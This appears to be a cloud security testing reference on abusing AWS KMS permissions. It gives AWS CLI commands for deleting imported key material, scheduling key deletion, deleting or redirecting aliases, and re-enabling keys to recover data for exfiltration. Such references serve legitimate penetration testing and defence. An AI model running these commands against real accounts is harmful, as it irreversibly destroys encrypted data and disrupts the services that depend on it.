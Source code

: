 ### Delete Keys via kms:DeleteImportedKeyMaterial

With the `kms:DeleteImportedKeyMaterial` permission, an actor can delete the imported key material from CMKs with `Origin=EXTERNAL` (CMKs that have imperted their key material), making them unable to decrypt data. This action is destructive and irreversible unless compatible material is re-imported, allowing an attacker to effectively cause ransomware-like data loss by rendering encrypted information permanently inaccessible.

```bash
aws kms delete-imported-key-material --key-id <Key_ID>
```

### Destroy keys

Destroying keys it's possible to perform a DoS.

```bash
# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

> [!CAUTION]
> Note that AWS now **prevents the previous actions from being performed from a cross account:**

### Change or delete Alias
This attack deletes or redirects AWS KMS aliases, breaking key resolution and causing immediate failures in any services that rely on those aliases, resulting in a denial-of-service. With permissions like `kms:DeleteAlias` or `kms:UpdateAlias` an attacker can remove or repoint aliases and disrupt cryptographic operations (e.g., encrypt, describe). Any service that references the alias instead of the key ID may fail until the alias is restored or correctly remapped.

```bash
# Delete Alias
aws kms delete-alias --alias-name alias/<key_alias>

# Update Alias
aws kms update-alias \
  --alias-name alias/<key_alias> \
  --target-key-id <new_target_key>
```

### Cancel Key Deletion
With permissions like `kms:CancelKeyDeletion` and `kms:EnableKey`, an actor can cancel a scheduled deletion of an AWS KMS customer master key and later re-enable it. Doing so recovers the key (initially in Disabled state) and restores its ability to decrypt previously protected data, enabling exfiltration.

```bash
# Firts cancel de deletion
aws kms cancel-key-deletion \
  --key-id <Key_ID>

## Second enable the key
aws kms enable-key \
  --key-id <Key_ID>
```
